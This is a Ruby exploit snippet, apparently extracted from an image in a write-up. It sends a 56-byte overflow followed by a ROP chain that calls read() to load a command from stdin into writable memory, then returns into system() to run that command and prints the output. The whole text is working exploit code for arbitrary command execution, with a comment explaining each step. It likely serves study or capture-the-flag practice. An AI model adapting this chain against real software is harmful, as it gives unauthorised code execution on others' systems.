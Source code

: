 ```ruby
read_until(s, 'name?')

# Call sleep() to make sure it's working
# EXPLOIT2 = [
#   POP_RDI_RET,
#   5,
#   SLEEP,
#   DEBUG
# ].pack('Q*')

EXPLOIT2 = [
  # Set up a read() syscall to read arbitrary data into memory

  # First argument = fd = 0 (read from stdin)
  POP_RDI_RET,
  0,

  # Second arg = buffer = anywhere we can write
  POP_RSI_POP_R15_POP_RBP_RET,
  WRITABLE_MEMORY,
  0x1337, # Doesn't matter (goes into r15)
  0x1337, # Doesn't matter (goes into rbp)

  # Third arg = size
  POP_RDX_RET,
  ARGV[0].length + 1,

  # Return into READ - this will put our command into memory!
  READ,

  # Set up system() call to run the command
  POP_RDI_RET,
  WRITABLE_MEMORY,

  # Return straight into SYSTEM
  SYSTEM,
].pack('Q*')

s.write(("A" * 56) + EXPLOIT2 + "\n")

# Not sure if the sleep is necessary but it helps me feel better!
sleep 1
s.write("#{ARGV[0]}\0\n")
sleep 1

# Then just read everything
loop do
  a = s.read(1)
  if a.nil? || a == ''
    exit
  end
  print a
end
```
